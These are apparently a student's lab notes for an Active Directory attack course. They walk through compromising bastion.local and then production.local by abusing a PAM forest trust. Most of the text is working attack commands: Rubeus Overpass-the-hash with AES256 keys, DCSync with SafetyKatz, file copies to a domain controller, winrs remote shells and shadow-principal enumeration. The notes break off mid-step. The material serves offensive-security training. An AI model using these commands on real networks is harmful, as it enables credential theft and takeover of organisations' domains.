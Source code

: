 
Task 

• Compromise production.local by abusing PAM trust between bastion.local and production.local

First, we need to compromise bastion.local. We have DA on techcorp.local that has a two-way trust with bastion.local. Let's enumerate Foreign Security Principals on bastion.local to check if there is anything interesting. Using the Active Directory module from InvisiShell:

ADmodule

```
 Get-ADObject -Filter {objectClass -eq "foreignSecurityPrincipal"} -Server bastion.local
```

![[Pasted image 20250325183014.png]]

So, the DA of techcorp.local is a part of a group on bastion.local. To find out which group it is a member of, run the below command:

```
Get-ADGroup -Filter * -Properties Member -Server bastion.local | ?{$_.Member -match 'S-1-5-21-2781415573-3701854478-2406986946-500'}
```

![[Pasted image 20250325183232.png]]

Sweet! The administrator of techcorp.local is a member of the built-in administrators group on bastion.local. 

That makes things simple! Let's access bastion-dc as administrator. Run the below command from an elevated shell on the student VM to use Overpass-the-hash:

```
echo %Pwn% asktgt
```

```
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /domain:techcorp.local /user:administrator /aes256:58db3c598315bf030d4f1f07021d364ba9350444e3f391e167938dd998836883 /dc:techcorp-dc.techcorp.local /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

```
echo F | xcopy C:\AD\Tools\InviShell\InShellProf.dll \\bastion-dc.bastion.local\C$\Users\Public\InShellProf.dll /Y
```

```
echo F | xcopy C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat \\bastion-dc.bastion.local\C$\Users\Public\RunWithRegistryNonAdmin.bat /Y
```

```
winrs -r:bastion-dc.bastion.local cmd
```


```
C:\Users\Public\RunWithRegistryNonAdmin.bat
```

Check if PAM trust is enabled. First enumerate trusts on bastion.local. Because we are already on a domain controller, we can use the Active Directory module:

```
Get-ADTrust -Filter {(ForestTransitive - eq $True) -and (SIDFilteringQuarantined -eq $False)}
```

![[Pasted image 20250325210239.png]]

Once we know that there is a ForestTransitive trust and SIDFIlteringForestAware is false, enumerate trusts on production.local to be sure of PAM trust in use. If we try to access production.local from the session on bastion.local we will face the double hop issue, so we need to use Overpass-the-hash Administrator of bastion.local. First, we will use the privileges of domain administrator of techcorp.local to extract credentials of domain administrator for bastion.local. Use the below command in the command prompt that we used above:


```
echo %Pwn% lsadump::dcsync
```

```
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\SafetyKatz.exe - args "%Pwn% /user:bastion\Administrator /domain:bastion.local" "exit"
```

![[Pasted image 20250325210603.png]]

Run the below command from an elevated shell on the student VM to use Overpass-the-hash and start a process with the privileges of domain administrator of bastion.local:

```
echo %Pwn% asktgt
```

```
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe - args %Pwn% /domain:bastion.local /user:administrator /aes256:a32d8d07a45e115fa499cf58a2d98ef5bf49717af58bc4961c94c3c95fc03292 /dc:bastion-dc.bastion.local /createnetonly:C:\Windows\System32\cmd.exe /show
```
In the new process, use the below commands to copy and use InvisiShell:


![[Pasted image 20250325212345.png]]

```
Get-ADTrust -Filter {(ForestTransitive -eq $True) -and (SIDFilteringQuarantined -eq $False)}
```

![[Pasted image 20250325212419.png]]

So we now know that SID History is allowed for access from bastion.local to production.local. Check the membership of Shadow Security Principals on bastion.local:


```
$SearchBase = "CN=Shadow Principal Configuration,CN=Services," + (Get-ADRootDSE).configurationNamingContext
```

```
Get-ADObject -SearchBase $SearchBase -Filter * -Properties * | Select Name, Member, msDS-ShadowPrincipalSid | Format-List
```

![[Pasted image 20250325215723.png]]

```
Get-DnsServerZone -ZoneName production.local |fl *
```

![[Pasted image 20250325215745.png]]

To use PowerShell Remoting to connect to an IP address, we must modify the WSMan Trustedhosts property on the student VM. Run the below command in an elevated PowerShell on the student VM:

